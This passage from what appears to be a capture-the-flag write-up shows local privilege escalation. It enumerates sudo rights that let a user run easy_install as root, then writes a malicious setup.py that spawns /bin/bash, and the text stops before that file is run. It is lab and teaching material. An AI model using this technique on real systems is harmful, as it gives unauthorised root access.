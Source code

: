 ### Enumeration

developer is able to run `easy_install` as root without a password:



    developer@updown:~$ sudo -l
    Matching Defaults entries for developer on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User developer may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/local/bin/easy_install



### Exploit easy_install

#### Background

`easy_install` is a now deprecated way to install packages in Python. At
it's heart, it's running a `setup.py` script which promises to take
certain actions to install the package.

#### Exploit

Since `easy_install` is effectively running a Python script, getting
execution from it is trivial. There's a [GTFObins
page](https://gtfobins.github.io/gtfobins/easy_install/) for this with
some copy paste to get shell, but I'll work through it on my own to
better understand it.

`easy_install` needs an argument to tell if what to install:



    developer@updown:~$ sudo easy_install
    error: No urls, filenames, or requirements specified (see --help)



It can take a URL (so I could host something malicious on my machine and
fetch it), but it can also just take a directory. I'll create a
directory:



    developer@updown:~$ mkdir /tmp/0xdf
    developer@updown:~$ cd /tmp/0xdf
    developer@updown:/tmp/0xdf$



The malicious script goes into `setup.py`:



    developer@updown:/tmp/0xdf$ echo -e 'import os\n\nos.system("/bin/bash")' > setup.py
    developer@updown:/tmp/0xdf$ cat setup.py 
    import os

    os.system("/bin/bash")
